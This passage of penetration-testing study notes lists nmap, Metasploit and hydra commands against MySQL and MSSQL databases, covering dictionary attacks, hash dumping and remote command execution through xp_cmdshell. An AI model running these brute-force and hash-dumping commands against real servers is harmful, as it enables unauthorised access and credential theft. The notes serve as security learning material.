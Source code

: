 <mark style="background: #FFB86CA6;">--script=mysql-query</mark>
+ <mark style="background: #ADCCFFA6;">make a query</mark>
+ Example: `nmap IP -p 3306 --script=mysql-dump_hashes --script-args="query='select count(*) from books.authors;',username='root',password=''"`

### MySQL Dictionary Attack ###

<mark style="background: #FF5582A6;">msfconcole</mark>
+ <mark style="background: #ADCCFFA6;">mysql_login</mark>
	+ `use scanner/mysql/mysql_login`
		+ `set rhosts IP`
		+ `set pass_file /usr/share/metasploit-framwork/data/wordlists/unix_passwords.txt`
		+ `set stop_on_success true`
		+ `set verbose false`
		+ `set username root`

<mark style="background: #D2B3FFA6;">hydra</mark>
+ example: `hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt IP mysql`

### MSSQL (Microsoft) Nmap Script ###

<mark style="background: #FFB86CA6;">--script ms-sql-info</mark>
+ Will get info like <mark style="background: #ADCCFFA6;">services, patches, name</mark>, etc
+ Example: `nmap IP -p 1433 --script ms-sql-info`

<mark style="background: #FFB86CA6;">--script ms-sql-ntlm-info</mark>
+ Will get info <mark style="background: #ADCCFFA6;">names and NetBIOS names</mark>
+ Example: `nmap IP -p 1433 --script ms-sql-ntlm-info --script-args mssql.instance-port=1433`

<mark style="background: #FFB86CA6;">--script ms-sql-brute</mark>
+ Will run a <mark style="background: #ADCCFFA6;">brute force</mark>
+ Example: `nmap IP -p 1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,userdb=/root/Desktop/wordlist/100-common_passwords.txt`

<mark style="background: #FFB86CA6;">--script ms-sql-empty-password</mark>
+ Will look for <mark style="background: #ADCCFFA6;">empty passwords</mark>
+ Example: `nmap IP -p 1433 --script ms-sql-empty-password`

<mark style="background: #FFB86CA6;">--script ms-sql-query</mark>
+ Can <mark style="background: #ADCCFFA6;">run a query</mark>
+ Example: `nmap IP -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -oN ouput.txt`
  + will do the described query and push it into a text file

<mark style="background: #FFB86CA6;">--script ms-sql-dump-hashes</mark>
+ Will <mark style="background: #ADCCFFA6;">dump hashes</mark> for users
+ Example: `nmap IP -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria`

<mark style="background: #FFB86CA6;">--script ms-sql-xp-cmdshell</mark>
+ Will be able to <mark style="background: #ADCCFFA6;">run a shell remotely</mark> 
+ Example: `nmap IP -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdshell.cmd="ipconfig"`
  + the above will run a `ipconfig`
  + note on windows, rather then `cat` will use `type`
